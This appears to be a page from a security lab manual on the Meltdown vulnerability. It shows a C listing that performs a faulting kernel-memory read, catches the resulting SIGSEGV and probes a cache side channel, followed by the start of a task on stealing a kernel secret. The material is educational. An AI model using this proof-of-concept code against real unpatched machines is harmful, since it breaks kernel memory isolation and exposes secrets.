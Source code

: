 - Listing 5:MeltdownExperiment.c
```
void meltdown(unsigned long kernel_data_addr)
{
char kernel_data = 0;

  // The following statement will cause an exception
  kernel_data = *(char*)kernel_data_addr; //line 1
  array[7 * 4096 + DELTA] += 1; // line 2
}

// Signal handler
static sigjmp_buf jbuf;
static void catch_segv() { siglongjmp(jbuf, 1); }

int main()
{
  // Register a signal handler
  signal(SIGSEGV, catch_segv);

  // FLUSH the probing array
  flushSideChannel();

  if (sigsetjmp(jbuf, 1) == 0) {
  meltdown(0xfb61b000); // line 3
  }
  else {
  printf("Memory access violation!\n");
  }

  // RELOAD the probing array
  reloadSideChannel();
  return 0;
}
```

It should be noted that the address in Line 3 should be replaced by the actual address that you found
from the kernel module. Compile and run the code (see Section 2 for the instructions on the compilation).
Document and explain your observations.

## 6 Task 7: The Basic Meltdown Attack

The out-of-order execution creates an opportunity for us to read data from the kernel memory, and then use
the data to conduct operations that can cause observable effects on the CPU cache. How far a CPU can go in
the out-of-order execution depends on how slow the access check, which is done in parallel, is performed.
This is a typical race condition situation. In this task, we will exploit this race condition to steal a secret
from the kernel.
